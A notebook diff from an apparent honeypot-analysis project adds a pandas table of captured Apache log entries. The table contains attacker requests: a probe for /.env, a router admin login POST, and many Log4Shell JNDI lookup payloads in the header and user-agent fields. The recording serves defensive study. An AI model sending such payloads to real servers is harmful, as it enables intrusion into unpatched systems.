

Before and after one commit to friendly-besties-incorporated/all-honeypot-code, a Jupyter notebook: hacs200master.ipynb, the cells around one changed output, grey strips where cells are left out. Saved outputs shown, nothing was run; the diff lists cells and outputs as text; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/hacs200master.ipynb
+++ b/hacs200master.ipynb
@@ -51,6 +66,21 @@ mitm.set_axis(['containerType', 'IP', 'Time', 'attackerUser', 'attackerPwd', 'nu
 # %%
 apache = pd.read_csv('apache_out.txt', lineterminator='\n', delimiter='|')
 apache.set_axis(['apacheContainerType', 'apacheIP', 'apacheTime', 'apacheType', 'apacheSMTH', 'apacheUserAgent', 'apacheIsGet'], axis=1, inplace=True)
+apache
+# %% [output]
+|  | apacheContainerType | apacheIP | apacheTime | apacheType | apacheSMTH | apacheUserAgent | apacheIsGet |
+| 0 | pwd-t_running | 103.133.109.141 | 23/Oct/2022:18:03:34 | GET /.env HTTP/1.1 | - | Mozilla/5.0 (X11; Linux x86_64) A... | y |
+| 1 | pwd-t_running | 103.133.109.141 | 23/Oct/2022:18:03:35 | POST / HTTP/1.1 | - | Mozilla/5.0 (X11; Linux x86_64) A... | n |
+| 2 | pwd-t_running | 85.209.134.235 | 23/Oct/2022:17:22:11 | POST /boaform/admin/formLogin HTT... | http://128.8.238.49:80/admin/logi... | Mozilla/5.0 (X11; Ubuntu; Linux x... | n |
+| 3 | pwd-t_running | 147.182.233.56 | 30/Oct/2022:13:16:20 | GET / HTTP/1.1 | ${jndi:ldap://:8185/a} | ${jndi:ldap://:8185/a} | y |
+| 4 | pwd-t_running | 223.171.91.144 | 30/Oct/2022:10:55:46 | GET / HTTP/1.1 | ${jndi:ldap://:8183/a} | ${jndi:ldap://:8183/a} | y |
+| ... | ... | ... | ... | ... | ... | ... | ... |
+| 131597 | pwd-t-2_running | 89.100.220.200 | 14/Nov/2022:23:52:46 | GET / HTTP/1.1 | ${jndi:ldap://:8180/a} | ${jndi:ldap://:8180/a} | y |
+| 131598 | pwd-t-2_running | 31.165.5.155 | 14/Nov/2022:23:52:54 | GET / HTTP/1.1 | ${jndi:ldap://:8189/a} | ${jndi:ldap://:8189/a} | y |
+| 131599 | pwd-t-2_running | 89.121.228.38 | 14/Nov/2022:23:56:48 | GET / HTTP/1.1 | ${jndi:ldap://:8189/a} | ${jndi:ldap://:8189/a} | y |
+| 131600 | pwd-t-2_running | 119.6.131.21 | 14/Nov/2022:23:59:15 | GET / HTTP/1.1 | ${jndi:ldap://:8184/a} | ${jndi:ldap://:8184/a} | y |
+| 131601 | pwd-t-2_running | 122.225.25.242 | 15/Nov/2022:00:00:07 | GET / HTTP/1.1 | ${jndi:ldap://:8181/a} | ${jndi:ldap://:8181/a} | y |
+131602 rows × 7 columns
 # %%
 cmds = pd.read_csv('cmds_out.txt', lineterminator='\n', delimiter='|', )
 cmds.set_axis(['containerType', 'IP', 'Time', 'attackerUser', 'attackerPwd', 'noninteractive', 'command'], axis=1, inplace=True)
```
Also changed, not shown: parts of 39 cells of this notebook.
